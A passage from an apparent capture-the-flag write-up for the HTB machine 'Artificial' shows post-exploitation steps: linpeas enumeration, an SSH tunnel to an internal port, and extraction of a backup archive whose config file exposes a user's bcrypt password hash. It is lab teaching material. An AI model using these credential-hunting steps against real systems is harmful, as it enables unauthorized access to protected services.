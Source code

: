 ![](cybersecurity/images/Pasted%2520image%252020250628150408.png)
Let's run linpeas again:

![](cybersecurity/images/Pasted%2520image%252020250628150546.png)


Port `9898` seems weird, let's perform `ssh tunneling` to check the contents of it:

```
ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
```

![](cybersecurity/images/Pasted%2520image%252020250628150721.png)

We need some creds for it, if we check our linpeas scan, we can find this:

![](cybersecurity/images/Pasted%2520image%252020250628151017.png)

We got a `backrest_backup` file, let's get it and check the contents:

```json
tar -xvf backrest_backup.tar.gz
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh

cat backrest/.config/backrest/config.json | jq
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```
